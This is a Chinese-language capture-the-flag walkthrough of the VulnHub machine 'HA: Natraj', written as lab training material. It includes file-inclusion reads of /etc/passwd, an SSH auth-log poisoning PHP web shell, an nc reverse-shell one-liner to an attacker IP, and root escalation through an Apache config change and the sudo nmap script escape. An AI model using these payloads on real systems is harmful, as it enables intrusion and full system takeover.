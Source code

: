 # HA: Natraj

2024-5-19 https://www.vulnhub.com/entry/ha-natraj,489/

difficulty: Easy

## IP

192.168.10.180

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

先对 80 web 服务进行目录扫描：

```
gobuster dir -u http://192.168.10.180/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

http://192.168.10.180/images               (Status: 301) [Size: 317] [--> http://192.168.10.180/images/]
http://192.168.10.180/index.html           (Status: 200) [Size: 14497]
http://192.168.10.180/console              (Status: 301) [Size: 318] [--> http://192.168.10.180/console/]
```

其中 /console 中显示了一个 file.php 文件，看上去可能像是个文件上传的接口或者是本地文件包含接口，但是需要 FUZZ 到相关的接口参数：

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.10.180/console/file.php?FUZZ=/etc/passwd -fs 0

file                    [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 0ms]
```

找到了 file 参数，具体看看返回什么内容：

```
curl http://192.168.10.180/console/file.php?file=/etc/passwd

root:x:0:0:root:/root:/bin/bash
...
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

可以看到是一个文件包含漏洞，从/etc/passwd 中可以看到可用的用户名:root、natraj、mahakal

通过文件包含，也查找不到 natraj 和 mahakal 中.ssh 中的 id_rsa 文件。

得想办法得到 webshell，让我们找找 log，看看能否把 web shell 写入到日志文件中，然后包含这个日志文件就能解析。

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.10.180/console/file.php?file=FUZZ -fs 0
```

我们发现了一个 /var/log/auth.log ，这个文件是记录 ssh 登陆认证的日志，我们可以用用户名为 <?php system($_GET[1]); ?> 的用户名去登陆，然后访问日志文件：

```
echo -n "<?php system($_GET[1]); ?>" | base64  # 直接使用 <?php system($_GET[1]); ?> 作为用户名报错，先对其进行base64编码

ssh "<?php system($_GET[1]); ?>"@192.168.10.180  # 出现 remote username contains invalid characters

curl http://192.168.10.180/console/file.php?file=/var/log/auth.log&cmd=ls
```

但是直接在命令行中 ssh 登陆，一直提示用户名 remote username contains invalid characters，经过查找，高本版的 openssh 中已经对用户名的特殊字符进行了限制，必须使用低版本的 openssh 才行。

免去找低版本的烦恼，直接用 msf 中的 scanner/ssh/ssh_login 模块，设置 username 为 <?php system($_GET[1]);?>，同时随便设置 PASSWORD，然后 run，这时后门代码已经入住到 auth.log 中，再次访问日志文件，激活 web shell：

对后门代码进行检测看是否能执行命令：

```
curl "http://192.168.10.180/console/file.php?file=/var/log/auth.log&1=pwd"
```

在 kali 上进行监听 8888 端口，激活反弹 shell：

```
curl 'http://192.168.10.180/console/file.php?file=/var/log/auth.log&1=which%20nc'  # 发现目标机器有nc /bin/nc,所以使用nc进行反弹shell

curl 'http://192.168.10.180/console/file.php?file=/var/log/auth.log&1=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.10.3%208888%20%3E%2Ftmp%2Ff'
```

得到了反弹的 shell，进行系统枚举，suid 没有发现特殊的程序：

```
find / -perm -u=s -ls 2>/dev/null
```

sudo -l 发现我们能重启 apache 服务，并且对 /etc/apache2/apache2.conf 具有完全修改的访问权限：

```
(ALL) NOPASSWD: /bin/systemctl start apache2
(ALL) NOPASSWD: /bin/systemctl stop apache2
(ALL) NOPASSWD: /bin/systemctl restart apache2

ls -al /etc/apache2/apache2.conf
```

在/home 的 2 个用户中，进行尝试，切换这 2 个用户，分别启动 apache，结果 mahakla 用户能启动启动后，能有继续提权的路径（最后通过 root 权限查看了 /etc/sudoers， 没有配置 natraj 的选项，没有利用的路径）：

```
User mahakal
Group mahakal
```

先将我们的后门 php 脚本，下载到 /var/www/html 中，方便我们后门反弹链接。

然后重启 apache2 服务：

```
sudo /bin/systemctl restart apache2
```

这时，得到了 mahakal 权限的反弹 shell，并且发现 sudo 中可以使用 nmap：

```
(root) NOPASSWD: /usr/bin/nmap
```

进行利用，直接升级到 root：

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
proof.txt
root.txt
cat proof.txt
9a94418bf0076d5016002829be2a8cf1
```

